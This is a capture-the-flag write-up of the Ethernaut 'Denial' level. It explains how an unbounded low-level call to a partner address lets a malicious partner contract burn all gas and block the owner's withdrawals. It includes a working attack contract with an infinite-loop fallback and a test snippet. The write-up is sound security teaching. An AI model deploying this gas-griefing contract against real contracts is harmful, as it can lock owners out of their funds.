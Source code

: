 # Level 20 - Denial

## Objectives

- Deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less).

## Contract Overview

The `Denial` contract allows for withdrawals of funds, with a split between the withdrawal partner and the contract owner, and keeps track of the partner's balance.

## Finding the weak spots

The goal is to make the withdraw call fail. We control the partner contract. The only options we have is to do something bad in the external `call` made to the partner address.

```solidity

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}(""); // <-- this line over here
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

The contract writer's idea was to ensure that even if a `revert` or `require` statement is executed within the contract, the withdrawal to the original owner would still occur. However, the contract has a potential issue with the use of the `.call` function without explicitly specifying a gas limit.

Both the `transfer` and `send` functions, which are high-level functions used to send Ether to a target address, use a fixed amount of 2300 gas to perform the operation. On the other hand, the `call` function has two options:

- it can either forward all the remaining transaction gas by default
- it can specify the amount of gas that the external contract can use with the gas parameter.

If an attacker were to consume all the available gas in the transaction, the calling function would be out of gas and fail. Unlike `revert` and `require`, the `assert` instruction consumes all gas. Therefore, if an attacker were to use an `assert` statement within the `call` function (`assert(false)` before solidity 0.8.0 and `assembly {invalid()}` after solidity 0.8.0), it could result in a denial-of-service attack and cause the calling function to fail. Instead of `assert` statement within the `call` function attacker can also use an infinite while loop `while (true) {}`.

In summary, while the contract writer's idea of allowing the withdrawal to continue even if the contract execution fails is valid, there is a potential issue with the use of the `.call` function without explicitly specifying a gas limit. This could potentially leave the contract vulnerable to a denial-of-service attack.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract with a `fallback` or `receive` function that drains all the gas and prevents further execution of the `withdraw()` function.

## Plan of the attack

1. Attacker creates the malicious contract with a `fallback` function and constructor.
2. Attacker calls the `setWithdrawPartner` function within constructor to make the address of deployed contract the partner.
3. Owner calls the `withdraw` function that makes call to `fallback()` function in the attacker malicious contract.
4. Deny the owner from withdrawing funds.

## Malicious contract (DenialAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Denial.sol";

// 1. Attacker creates the malicious contract with a `fallback` function and constructor.
contract DenialAttack {
    Denial denialContract;

    constructor(address _denialContract) {
        denialContract = Denial(payable(_denialContract));
        // 2. Attacker calls the `setWithdrawPartner` function within constructor to make the address of deployed contract the partner.
        denialContract.setWithdrawPartner(address(this));
    }

    // 4. Deny the owner from withdrawing funds.
    fallback() external payable {
        while (true) {}
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/20-Denial.t.sol))

```solidity
        DenialAttack denialAttack = new DenialAttack(address(level));

        // 3. Owner calls the `withdraw` function that makes call to `fallback()` function in the attacker malicious contract.
        // The `withdraw` function will be called automatically by the `DenialFactory` contract
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Denial.png)

## Recommendations

- Always check the return value of low-level calls, especially in cases where the called address is controlled by a third party.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-19-solution-denial)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
